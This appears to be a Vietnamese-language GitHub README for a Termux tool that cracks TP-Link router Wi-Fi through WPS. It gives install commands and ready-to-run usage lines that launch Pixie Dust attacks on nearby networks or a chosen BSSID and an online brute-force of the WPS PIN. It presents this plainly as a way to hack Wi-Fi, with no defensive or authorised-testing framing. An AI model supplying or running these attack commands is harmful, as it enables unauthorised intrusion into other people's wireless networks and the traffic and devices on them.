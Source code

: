 ## BẢN 	TIẾNG VIỆT WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Bằng Termux! (Yêu cầu quyền Root)t)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Cài đặt: :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/anhduong295/Vietnamese-WPS_Wifi_Cracker_For_TP-Link_Router-main.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Ví dụ: `sudo python Tanvir_inject.py -i wlan0 -K`

#### Lưu ý:: 
**Đầu tiên, hãy tắt Wifi của bạn.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust vào một mạng cụ thể.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- Bắt đầu tấn công Pixie Dust vào một BSSID cụ thể: 
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy tấn công brute-force WPS trực tuyến với nửa đầu của mã PIN được chỉ định:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Khắc phục sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi sau đó tắt Wifi.**
